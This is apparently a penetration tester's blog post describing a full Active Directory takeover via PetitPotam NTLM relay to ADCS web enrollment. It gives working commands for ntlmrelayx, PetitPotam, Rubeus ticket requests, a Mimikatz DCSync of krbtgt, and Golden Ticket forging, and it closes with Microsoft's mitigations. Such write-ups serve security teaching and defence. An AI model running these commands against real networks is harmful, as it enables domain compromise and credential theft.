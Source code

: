 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).

I still need to conduct more research and experiment to fully understand this attack and the underlying technicalities.


## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remember reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using this attack.

### Active Directory Certificate Services
On a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (the attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, Mimikatz can be used to dump credentials of the DA or the krbtgt account to fully compromise the Active Directory environment.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. A native Windows tool called `certutil.exe` or [Certify](https://github.com/GhostPack/Certify) can be used for this purpose. Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, this tool can also be used to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, no vulnerable template was identified.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*

Now I've got the domain name for the CA Web Enrollment Interface at `https://ca-hostname/certsrv`, I was able to access this domain and request for a certificate to get a `certfnsh.asp`.
{{< image src="/images/CA_WebE.png" alt="CA Web Enrollment" position="left" style="border-radius: 8px;" >}}
*CA Web Enrollment Portal*
{{< image src="/images/certfnsh.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Generated certfnsh.asp*

With this, I was able to launch the ADCS Relay attack.

From the attacker box, launch `ntlmrelayx.py`:

``` bash
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:

``` bash
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful, on the ntlmrelayx window, a Base64 encoded certificate of the DC machine account was captured:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:

``` powershell
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT of DC$ would be imported into my current user session.
\
From here, a threat actor can aim for the highest prize by dumping the AES256 encryption key of the krbtgt account to forge a Golden Ticket:
Launch Mimikatz and dump the AES256 encryption key:

``` powershell
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once the AES256 encryption key of the krbtgt account has been captured, the Golden Ticket could be forged:

``` powershell
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceed to inject the Golden Ticket:

``` powershell
Rubeus.exe ptt /ticket:goldie.kirbi
```
GG!

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\

More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)
